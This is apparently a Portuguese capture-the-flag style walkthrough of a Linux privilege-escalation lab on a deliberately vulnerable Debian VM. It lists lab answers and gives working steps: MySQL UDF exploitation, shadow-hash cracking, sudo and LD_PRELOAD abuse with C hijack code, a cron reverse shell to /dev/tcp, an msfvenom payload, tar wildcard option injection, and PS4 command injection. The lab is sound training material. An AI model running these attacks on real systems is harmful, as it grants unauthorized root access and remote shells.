

# Introdução

A room aborta algumas técnicas sobre elevação de privilégios em ambientes Linux. A partir de um VM Debian propositalmente vulnerável, é possível praticar tais técnicas.

# Execução

## 1 - Deploy the Vulnerable Debian VM

Primeira task consiste basicamente em realizar o deploy (iniciar) a VM. São repassadas informações de acesso SSH: usuário -> **user**; senha -> **password321**

### Questões:

- a. ***Deploy the machine and login to the "user" account using SSH***: *Não há necessidade de resposta*

- b. ***Run the "id" command. What is the result?*** *uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)*

## 2 - Service Exploits

Existe na VM uma instância do SGDB Mysql sendo executado com usuário root e o usuário root do Mysql está sem senha. É possível utilizar um exploit bem popular disponível no [link](https://www.exploit-db.com/exploits/1518), a fim de obter vantagem de UDFs (User Defined Functions) e executar comandos como superusuário via serviço do Mysql.

Após acessar a VM, acesse o diretório abaixo:
```shell
cd /home/user/tools/mysql-udf
```

A Vm já possui o exploit no diretório acima para facilitar. Se fosse em um pentest real, com esse mesmo, cenário, seria necessário baixar o exploit e enviar para o alvo.

```shell
user@debian:~$ cd /home/user/tools/mysql-udf
user@debian:~/tools/mysql-udf$ ll
total 4
-rw-r--r-- 1 user user 3378 May 15  2020 raptor_udf2.c
user@debian:~/tools/mysql-udf$ 
```
Agora, é necessário compilar o arquivo raptor_udf2.c com os comandos, conforme imagem abaixo:


Conexão com o mysql:

```shell
mysql -u root
```

Após isso, executa-se a sequência de comandos abaixo:

```shell
use mysql;

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

create function do_system returns integer soname 'raptor_udf2.so';
```
Agora, usa-se a função para copiar ***/bin/bash*** para ***/tmp/rootbash*** e "setar" a permissão **SUID**.

```shell
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
Os comandos executados na imagem abaixo:



Para sair da console do mysql, digite ***quit***.

Agora, para obter um shell com elevação de privilégios, basta digitar:

```shell
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
rootbash-4.1# whoami
root
rootbash-4.1# 
```

Por fim, é solicitado que seja removido o arquivo /tmp/rootbash e saia do shell root, antes de prosseguir para as próximas tasks da room.

### Questões:

- a. ***Read and follow along with the above***: *Não há necessidade de resposta*

## 3 - Weak File Permissions - Readable /etc/shadow

O arquivo /etc/shadow contém as hashs de senhas dos usuários do sistema. Em uma configuração correta, esse arquivo só deve ter permissão de leitura para o usuário root.

Verificando as permissões do arquivo na VM alvo:

```shell
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~$ 
```
Percebe-se que outros usuário possuem permissão de leitura. Também permissão de gravação, mas isso será explorado na próxima task da room.

Como o usuário ***user*** pode ler o arquivo, basta executar um ***cat /etc/shadow***.

O que se pode fazer agora, é coletar a linha do usuário root, adicionar em um arquivo e usar uma ferramenta, como por exemplo, o John the ripper para descobrir a senha do usuário root.

```shell
┌──(root㉿kali)-[/tryhackme/rooms/linuxprivesc]
└─# john --wordlist=rockyou.txt hash.txt                                       
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)     
1g 0:00:00:00 DONE (2022-07-13 20:09) 1.666g/s 2560p/s 2560c/s 2560C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Para a execução do comando acima, foi utilizada a wordlist rockyou.txt. Esta wordlist esstá disponível no próprio Kali Linux.

Agora que desobriu-se a senha do usuário root, basta executar ***su root*** e informar a senha quando solicitado. Obtém-se um shell com elevação de privilégios.

### Questões:

- a. ***What is the root user's password hash?*** *$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0*

- b. ***What hashing algorithm was used to produce the root user's password hash?*** *sha512crypt*

Para responder a questão ***b***, basta uma pesuisa rápida na internet. Entretanto, a própria saída do comando john, exibe essa informação.

- c. ***What is the root user's password?*** *password123*

## 4 - Weak File Permissions - Writable /etc/shadow

Se o arquivo /etc/shadow por alguma razão tiver permissão de gravação, basta gerar uma hash e substituir a hash atual do usuário root pela nova.

Para gerar uma hash no padrão do arquivo shadow:

```shell
mkpasswd -m sha-512 novasenha
```
Depois de editar o arquivo /etc/shadow mudando a hash do usuário root pela nova gerada com o comando acima e salvar, basta elevar para o usuário root com ***su root***.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 5 - Weak File Permissions - Writable /etc/passwd 

O arquivo ***/etc/passwd*** contém informações sobre contas de usuários do sistema. Ele tem permissão de leitura para todos os usuário, porém a permissão de escrita é somente para o usuário root.

Historicamente, o arquivo ***/etc/passwd*** continha hashes de senha do usuário, e algumas versões do Linux ainda permitem que hashes de senha sejam armazenados lá.

Se esse arquivo tiver permissão de escrita para outros usuários, é possível explorar essa fraqueza para elevar privilégios.

Primeiro, gera-se uma hash de senha com o comando abaixo:

```shell
openssl passwd senhaaterhashgerada
```

Agora, basta editar o arquivo ***/etc/passwd*** e na linha que contém o usuário root, substituir o "x" pela hash gerada com o comando anterior.

Para elevar para root:

```shell
su root
```
Abaixo a demonstração:

```shell
user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssl passwd Senha123
lIkG5D1fwKsp6
user@debian:~$ vi /etc/passwd
user@debian:~$ su root
root@debian:/home/user# 
```

Outra forma, é adicionar um novo usuário com permissão de root, colocando a hash gerada no lugar do "x". Assim, não se altera o usuário root original.

### Questões:

- a. ***Run the "id" command as the newroot user. What is the result?*** *uid=0(root) gid=0(root) groups=0(root)*

## 6 - Sudo - Shell Escape Sequences 

Uma ação recomendada, após ganhar acesso a um host alvo, é verificar se o usuário que está logado possui alguma permissão sudo. Para isso:

```shell
sudo -l
```

Uma excelente fonte de consulta para aprender como explorar binários que estão autorizados no sudo é o [GTFOBins](https://gtfobins.github.io), a fim de se obter elevação de privilégios.

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
Apenas para ilustar, [link](https://gtfobins.github.io/gtfobins/vim/) do GTFOBins com informações de elevação usando o comando vim.

Como os comandos estão configurados no sudo, eles são executados com permissão de superusuário. Portanto, é possível elevar privilégios usando alguns desses comandos.

Exemplo como vim:

```shell
user@debian:~$ sudo vim -c ':!/bin/sh'

sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# 
```
### Questões:

- a. ***How many programs is "user" allowed to run via sudo?*** *11* 

- b. ***One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?*** *apache2*

Para responder a questão b, basta realizar pesquisa no site GTFOBins.

## 7 - Sudo - Environment Variables 

O sudo pode ser configurado para herdar certas variáveis de ambiente do usuário.

Para checar tais informações, além das permissões, executa-se:

```shell
sudo -l
```
Saída com a parte de interesse:

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```
**LD_PRELOAD** e **LD_LIBRARY_PATH** são herdados do ambiente do usuário. **LD_PRELOAD** carrega um objeto compartilhado antes de qualquer outro quando um programa é executado. **LD_LIBRARY_PATH** fornece uma lista de diretórios onde as bibliotecas compartilhadas são pesquisadas primeiro.

Na VM usada na room, já existe um código para geração de um objeto compartilhado, a fim de demonstrar a exploração.

Para criar o objeto, execute:

```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

A biblioteca (arquivo .so) foi criada e está no diretório ***/tmp***.

Agora, é possível executar um dos programas que se tenha permissão para executar via sudo (listado ao executar sudo -l), mas pode-se configurar a variável de ambiente LD_PRELOAD para o caminho completo do novo objeto compartilhado:

```shell
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
Por exemplo:

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so vim
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# 
```

No exemplo acima, foi utilizado o vim, que está na lista de binários que o usuário pode executar com sudo. Obteve-se um shell como usuário root.

Para listar quais bibliotecas determinado programa utiliza, basta usar o comando ldd. Por exemplo:

```shell
root@debian:/home/user# ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff4e3b4000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f0b9dae5000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f0b9d8c1000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f0b9d687000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f0b9d46b000)
        libc.so.6 => /lib/libc.so.6 (0x00007f0b9d0ff000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f0b9cefa000)
        librt.so.1 => /lib/librt.so.1 (0x00007f0b9ccf2000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f0b9cabb000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f0b9c8b6000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f0b9c68e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0b9dfa2000)
```

Um outra técnica de exploração para elevar privilégios é gerar uma biblioteca com o mesmo nome que um binário usa de forma compartilhada. Para ilustrar, observe a geração de uma lib com o mesmo nome de uma utilizada pelo apache2:

```shell
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Novamente, a lib "disfarçada" foi gerada no diretório ***/tmp***.

Para efetivar, ao executar o apache2 com o sudo, informa-se a variável de ambiente LD_LIBRARY_PATH:

```shell
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2

apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)

root@debian:/home/user# 
```
Percebe-se que foi gerado um shell de root.

Na task é proposto o seguinte desafio:

Saia da shell de root. Tente renomear /tmp/libcrypt.so.1 para o nome de outra biblioteca usada pelo apache2  (listadas com o comando ldd mais acima) e execute novamente o apache2 usando sudo novamente. Funcionou? Se não, tente descobrir por que não, e como o código library_path.c pode ser alterado para fazê-lo funcionar.

Avaliando o código fonte do arquivo library_path.c:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
Para que seja possível chamar qualquer lib, basta alterar o código para:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 8 - Cron Jobs - File Permissions

Cron jobs são programas ou scripts que os usuários podem agendar para serem executados em horários ou intervalos específicos. Os arquivos de tabela cron (crontabs) armazenam a configuração para tarefas cron. O crontab de todo o sistema está localizado em /etc/crontab.

Veja o conteúdo do crontab de todo o sistema:

```shell
cat /etc/crontab
```


Percebe-se que existem dois cron jobs programados para serem executados a cada minuto. Um executa overwrite.sh, o outro executa /usr/local/bin/compress.sh.

Localize o caminho completo do arquivo overwrite.sh:

```shell
user@debian:~$ find / -name overwrite.sh -type f 2>/dev/null
/usr/local/bin/overwrite.sh
```
É interessante checar as permissões desse arquivo. Agora que se sabe o caminho, poderia ser executado um ***ls -l /usr/local/bin/overwrite.sh***. Entretanto, o comando find usado anterior pode ser modificado para fazer as duas coisas, ou seja, localiza e já lista mostrando as permissões:

```shell
user@debian:~$ find / -name overwrite.sh -type f -exec ls -l {} \; 2> /dev/null
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

Como o arquivo possui permissão de gravação para outros usuários, ficou fácil. Basta modificar o arquivo overwrite.sh para um conteúdo malicioso, por exemplo, abrir um shell reverso, como abaixo:

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Obs.**: o ip 10.10.10.10 deve ser modificado para o IP da máquina atacante.

Na máquina atacante, basta iniciar um netcat para escutar na porta 4444 com:

```shell
nc -nvlp 4444
```

Agora, basta aguardar a execução do cron job para ter uma sessão de shell reversa aberta no host atacante, a partir do host alvo.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 9 - Cron Jobs - PATH Environment Variable 

Ao visualizar o conteúdo do arquivo ***/etc/crontab***, pode-se perceber que existem variáveis de ambientes configuradas. Algumas vezes, pode ter uma variável de ambiente para um caminho que tenha permissão mais flexível, permitindo exploração.

```shell
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Observa-se que a variável PATH começa com ***/home/user*** que é o diretório inicial do nosso usuário.

Crie um arquivo chamado overwrite.sh no diretório do usuário com o seguinte conteúdo:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Basicamente, o script acima vai copir o binário do ***bash*** para ***/tmp*** com o nome ***rootbash***. Em seguida, adiciona-se permissão SUID, com o objetivo de executar com elevação de privilégios.

Para o arquivo overwrite.sh seja executado pelo crontab, é preciso adicionar permissão de execução a ele:

```shell
chmod +x overwrite.sh
```

Agora, basta aguardar a execução do cron job (não deve demorar mais de um minuto). Execute o comando /tmp/rootbash com -p para obter um shell rodando com privilégios de root:

```shell
/tmp/rootbash -p
```
Um shell de superusuário será aberto. Por que isso ocorreu? Pelo fato da variável de ambiente que estava setada para procurar executáveis no diretório home do usuário, ou seja, um diretório que um usuário limitado tem permissão. 

### Questões:

- a. ***What is the value of the PATH variable in /etc/crontab?*** */home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin*

## 10 - Cron Jobs - Wildcards 

Quando se visualizou o conteúdo do arquivo ***/etc/crontab***, um outro script estava agendado:
```shell
 * * * * * root /usr/local/bin/compress.sh
```
Visualizando conteúdo desse script:

```shell
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
Esse caractere corginga ou wildcard "*", dentro do diretório home (o qual se tem permissão), permite exploração para elevação de privilégios.

Como está sendo utilizado o comando tar, pode-se consultar o GTFOBins por [tar](https://gtfobins.github.io/gtfobins/tar/).

Observe que o tar possui opções de linha de comando que permitem executar outros comandos como parte de um recurso de ponto de verificação.

Para facilitar a geração de um payload, utiliza-se msfvenom, disponível no Kali, a fim gerar um binário ELF de shell reverso. Atualize o endereço IP LHOST para o IP do hsot atacante:

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
Transfira o arquivo shell.elf para /home/user/ na VM Debian (você pode usar scp ou hospedar o arquivo em um servidor web em sua caixa Kali e usar wget). Adicione permissão de execução ao arquivo:

```shell
chmod +x /home/user/shell.elf
```

Para que funcione a exploração do tar, conforme consultado na página do GTFOBins, é necessário criar dois arquivos, conforme abaixo:

```shell
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
Quando o comando tar na tarefa cron for executado, o curinga (*) será expandido para incluir esses arquivos. Como seus nomes de arquivos são opções de linha de comando tar válidas, o tar irá reconhecê-los como tal e tratá-los como opções de linha de comando em vez de nomes de arquivos.

Configure um listener netcat nos host atacante na porta 4444 e aguarde a execução do cron job (não deve demorar mais de um minuto). Um shell root deve se conectar de volta ao seu ouvinte netcat.

```shell
nc -nvlp 4444
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 11 - SUID / SGID Executables - Known Exploits 

Existem permissões especiais que podem ser adicionadas a arquivos - SUID ou SGID. Quando o bit extra “4” é definido como usuário (Proprietário), ele se torna SUID (Definir ID do usuário) e quando o bit “2” é definido como grupo, ele se torna SGID (Definir ID do grupo).

Portanto, as permissões a serem procuradas ao buscar por SUID são:

```
SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx
```
Essas permissões podem oferecer uma fonte de elevação de privilégios.

Para localizar todos os arquivos com SUID/SGID em um ambiente Linux, execute:

```shell
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
Saída:

```shell
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

Observe que /usr/sbin/exim-4.84-3 aparece nos resultados. Pode-se tentar localizar algum exploit conhecido para esta versão do exim. Exploit-DB, Google e GitHub são bons lugares para pesquisar!

Uma exploração de escalonamento de privilégios local que corresponda exatamente a esta versão do exim deve estar disponível. Uma cópia pode ser encontrada na VM Debian em ***/home/user/tools/suid/exim/cve-2016-1531.sh***, pois a VM tem objetivo didático. Em um cenário real, seria necessário encontrar ou desenvolver um exploit e encontrar uma forma de enviar para o host alvo.

Para executar o exploit, execute:

```shell
/home/user/tools/suid/exim/cve-2016-1531.sh
```
Saída:

```shell
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# 
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 12 - SUID / SGID Executables - Shared Object Injection 

O executável ***/usr/local/bin/suid-so*** SUID é vulnerável à injeção de objeto compartilhado.

Primeiro, execute o arquivo e observe que atualmente ele exibe uma barra de progresso antes de sair:

```shell
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

Agora, execute ***strace*** no arquivo e pesquise a saída para chamadas de abertura/acesso e para erros "no such file":

```shell
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
Observe que o executável tenta carregar o objeto compartilhado /home/user/.config/libcalc.so no diretório home do usuário, mas não foi localizado.

Crie o diretório .config para o arquivo libcalc.so:

```shell
mkdir /home/user/.config
```

Um exemplo de código que explora objeto (biblioteca) compartilhado pode ser encontrado em ***/home/user/tools/suid/libcalc.c*** na VM. Ele simplesmente gera um shell Bash. Compile o código em um objeto compartilhado no local em que o executável suid-so estava procurando por ele:

```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
Evidente que em um pentest real, seria preciso mandar esse código para o host alvo.

Após compilar, execute novamente o ***/usr/local/bin/suid-so***:

```shell
user@debian:~$ mkdir /home/user/.config
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# 
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 13 - SUID / SGID Executables - Environment Variables 

O executável ***/usr/local/bin/suid-env*** pode ser explorado por herdar a variável de ambiente PATH do usuário e tentar executar programas sem especificar um caminho absoluto.

Ao executar o arquivo, percebe-se que ele parece estar tentando iniciar o servidor apache2:

```shell
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1723) already running
. ok 
```
Execute usando o comando strings no arquivo para procurar strings de caracteres imprimíveis:

```shell
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

Uma linha ("service apache2 start") sugere que o executável do serviço está sendo chamado para iniciar o servidor web, porém o caminho completo do executável (***/usr/sbin/service***) não está sendo usado.

Compile o código localizado em ***/home/user/tools/suid/service.c*** em um executável chamado ***service***. Este código simplesmente gera um shell Bash:

```shell
gcc -o service /home/user/tools/suid/service.c
```
Anexe o diretório atual (ou onde o novo executável do serviço está localizado) para a variável PATH e execute o executável suid-env para obter um shell com elevação de privilégios:

```shell
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# 
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 14 - SUID / SGID Executables - Abusing Shell Features (#1) 

O executável ***/usr/local/bin/suid-env2*** é idêntico ao ***/usr/local/bin/suid-env***, exceto que ele usa o caminho absoluto do executável do serviço (***/usr/sbin/service***) para iniciar o servidor web apache2.

Verifique isso com strings:
```shell
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
Nas versões do Bash <4.2-048, é possível definir funções de shell com nomes que se assemelham a caminhos de arquivo e, em seguida, exportar essas funções para que sejam usadas em vez de qualquer executável real nesse caminho de arquivo.

Verifique se a versão do Bash instalada na VM Debian é menor que 4.2-048:

```shell
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Então, pode-se criar uma função Bash com o nome "***/usr/sbin/service***" que executa um novo shell Bash (usando -p para que as permissões sejam preservadas) e exporte a função:

```shell
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Agora, basta executar:

```shell
/usr/local/bin/suid-env2
```
Um bash como superusuário será iniciado.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 15 - SUID / SGID Executables - Abusing Shell Features (#2) 

Nota: Isso não funcionará nas versões Bash 4.4 e superiores.

Quando no modo de depuração, o Bash usa a variável de ambiente ***PS4*** para exibir um prompt extra para instruções de depuração.

Execute o executável ***/usr/local/bin/suid-env2*** com a depuração bash habilitada e a variável ***PS4*** definida como um comando incorporado que cria uma versão SUID de ***/bin/bash***:

```shell
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Agora, executa-se o /tmp/rootbash com -p para obter um shell rodando com privilégios de root:

```shell
/tmp/rootbash -p
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 16 - Passwords & Keys - History Files 

Se um usuário digitar acidentalmente sua senha na linha de comando em vez de em um prompt de senha, ela poderá ser gravada em um arquivo de histórico.

Visualize o conteúdo de todos os arquivos de histórico ocultos no diretório inicial do usuário:

```shell
user@debian:~$ cat ~/.*history | less

ls -al
cat .bash_history 
ls -al
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp
clear
ifconfig
netstat -antp
nano myvpn.ovpn 
ls
identify

(END) 
```

Percebe-se que o usuário tentou se conectar a um servidor MySQL em algum momento, usando o nome de usuário "root" e uma senha enviada pela linha de comando. Observe que não há espaço entre a opção -p e a senha!

Mude para o usuário root, usando a senha:

```shell
user@debian:~$ su root 
Password: 
root@debian:/home/user# 
```

### Questões:

